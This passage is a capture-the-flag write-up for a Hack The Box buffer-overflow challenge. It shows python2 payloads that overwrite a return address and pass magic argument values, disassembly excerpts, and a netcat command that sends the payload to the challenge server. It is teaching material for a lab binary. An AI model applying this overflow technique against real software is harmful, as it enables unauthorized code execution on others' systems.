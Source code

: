 Payload is now `python2 -c "print('A'\*188 + '\xe2\x91\x04\x08')" | ./vuln`

```bash
You know who are 0xDiablos:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Hurry up and try in on server side.
```

we print A 188 times instead of 184 because we need to override the return value and past the base pointer (worth 4 bytes)

It didnt work yet on server...there are 2 arguments in said function we need to match

```bash
│ 0x08049246 817d08efbead. cmp dword [arg_8h], 0xdeadbeef
│ ┌─< 0x0804924d 751a jne 0x8049269
│ │ 0x0804924f 817d0c0dd0de. cmp dword [arg_ch], 0xc0ded00d
│ ┌──< 0x08049256 7514 jne 0x804926c
```

we convert 0xdeadbeef and 0xc0ded00d to hex format and add them to payload + 4 bytes of characters

Now the final payload is:

`python2 -c "print('A'*188 + '\xe2\x91\x04\x08'+'A'*4+'\xef\xbe\xad\xde\r\xd0\xde\xc0')" | ./vuln`

used an [exploit.py](https://github.com/nair0lf32/CTF-Scripts/blob/master/Hackthebox/oxdiablos/exploit.py) script for better comfort and usabilty

You can also use netcat directly

```bash
python2 -c "print('A'*188 + '\xe2\x91\x04\x08'+'A'*4+'\xef\xbe\xad\xde\r\xd0\xde\xc0')" | nc 138.68.131.63 31365
You know who are 0xDiablos:
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAﾭ�
HTB{Ìnsert_flag_here}
```

How was that an easy challenge? Imagine the overall difficulty now...
Go learn some assembly asap!!!
